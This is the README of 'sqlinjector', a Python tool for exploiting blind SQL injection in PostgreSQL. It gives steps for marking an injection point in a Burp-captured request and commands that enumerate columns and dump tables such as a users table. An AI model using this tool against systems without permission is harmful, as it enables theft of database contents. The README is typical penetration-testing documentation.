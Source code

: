 # sqlinjector
A tool to exploit Boolean-based Blind SQL injections in PostgreSQL.
It allows to extract columns of one/several tables and dump the content of them.

Steps to make it work
---------------------
1. Once you have the vulnerable request in Burp, right click on it and select Copy to file.
2. Open the .sql file and insert the mark [INJ] in the injection point
```json
{"additionalInfo":{"baseName":"house","houseType":"16[INJ]"},"paginationInfo":{"pageIndex":1,"recordsPerPage":"10","sortField":"baseName"}}
```

Example:
--------
This will perform the following query: SELECT (user_table_cols) FROM dummy_db.users WHERE user_modified='John'
```bash
python sqli.py -D dummy_db -T users -FF user_table_cols.txt -W "user_modified='John'" -R request.sql --dump
```

This will show the columns tables of the "users" table of the current database
```bash
python sqli.py -T users -R request.sql --columns
```

This will show the columns tables of the tables specified in the file, of the current database
```bash
python sqli.py -TF table_names.txt -R request.sql --columns
```

Pending:
--------
- ~~Dump database names~~ Done
- ~~Dump table names~~ Done
- ~~Extend funcitionality to Time-based SQLi~~ Done
- Add MySQL support
- Add multithreading
